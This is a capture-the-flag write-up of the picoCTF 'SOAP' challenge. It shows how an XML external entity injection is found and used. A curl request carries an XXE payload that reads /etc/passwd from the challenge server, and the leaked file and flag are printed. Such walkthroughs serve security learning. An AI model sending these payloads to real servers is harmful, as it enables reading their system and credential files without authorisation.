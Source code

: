 # SOAP

A webpage, with three cards, each with a "Details" button

On clicking on Details, a POST request is sent with the payload:

```xml
<?xml version="1.0" encoding="UTF-8"?><data><ID>1</ID></data>
```

On inspecting the source code, we find `xmlDetailsCheckPayload.js`:

```javascript
window.contentType = 'application/xml';

function payload(data) {
    var xml = '<?xml version="1.0" encoding="UTF-8"?>';
    xml += '<data>';

    for(var pair of data.entries()) {
        var key = pair[0];
        var value = pair[1];

        xml += '<' + key + '>' + value + '</' + key + '>';
    }

    xml += '</data>';
    return xml;
}
```

Where key is "ID" and value is 1, 2 or 3 depending on what card is clicked

Searching about XML injection, I got to know about [XML external entity (XXE) injection](https://portswigger.net/web-security/xxe)

Original POST request (copy as Curl):

```shell
curl 'http://saturn.picoctf.net:60494/data' \
  -H 'Accept: */*' \
  -H 'Accept-Language: en-US,en;q=0.9,hi;q=0.8' \
  -H 'Connection: keep-alive' \
  -H 'Content-Type: application/xml' \
  -H 'Origin: http://saturn.picoctf.net:60494' \
  -H 'Referer: http://saturn.picoctf.net:60494/' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36' \
  --data-raw '<?xml version="1.0" encoding="UTF-8"?><data><ID>1</ID></data>' \
  --insecure
```

Modified request, using payload similar to the one in the blog:

```shell
curl 'http://saturn.picoctf.net:60494/data' \
  -H 'Accept: */*' \
  -H 'Accept-Language: en-US,en;q=0.9,hi;q=0.8' \
  -H 'Connection: keep-alive' \
  -H 'Content-Type: application/xml' \
  -H 'Origin: http://saturn.picoctf.net:60494' \
  -H 'Referer: http://saturn.picoctf.net:60494/' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36' \
  --data-raw '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]><data><ID>&xxe;</ID></data>' \
  --insecure
```

Response:

```text
Invalid ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
flask:x:999:999::/app:/bin/sh
picoctf:x:1001:picoCTF{XML_3xtern@l_3nt1t1ty_4dbeb2ed}
```

